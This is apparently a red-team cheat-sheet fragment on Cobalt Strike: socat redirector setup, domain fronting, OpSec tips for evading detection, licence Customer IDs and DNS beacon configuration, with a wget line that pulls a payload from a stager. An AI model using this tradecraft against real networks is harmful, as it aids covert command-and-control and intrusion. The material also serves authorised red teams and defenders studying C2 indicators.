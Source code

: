 
## Infrastructure

### Redirectors

```powershell
sudo apt install socat
socat TCP4-LISTEN:80,fork TCP4:[TEAM SERVER]:80
```

### Domain Fronting

* New Listener > HTTP Host Header
* Choose a domain in "Finance & Healthcare" sector 

## OpSec

**Don't**
* Use default self-signed HTTPS certificate
* Use default port (50050)
* Use 0.0.0.0 DNS response
* Metasploit compatibility, ask for a payload : `wget -U "Internet Explorer" http://127.0.0.1/vl6D`

**Do**
* Use a redirector (Apache, CDN, ...)
* Firewall to only accept HTTP/S from the redirectors
* Firewall 50050 and access via SSH tunnel
* Edit default HTTP 404 page and Content type: text/plain
* No staging `set hosts_stage` to `false` in Malleable C2
* Use Malleable Profile to taylor your attack to specific actors

### Customer ID

> The Customer ID is a 4-byte number associated with a Cobalt Strike license key. Cobalt Strike 3.9 and later embed this information into the payload stagers and stages generated by Cobalt Strike.

* The Customer ID value is the last 4-bytes of a Cobalt Strike payload stager in Cobalt Strike 3.9 and later.
* The trial has a Customer ID value of 0. 
* Cobalt Strike does not use the Customer ID value in its network traffic or other parts of the tool

## Payloads

### DNS Beacon

* Edit the Zone File for the domain
* Create an A record for Cobalt Strike system
* Create an NS record that points to FQDN of your Cobalt Strike system

Your Cobalt Strike team server system must be authoritative for the domains you specify. Create a DNS A record and point it to your Cobalt Strike team server. Use DNS NS records to delegate several domains or sub-domains to your Cobalt Strike team server's A record.
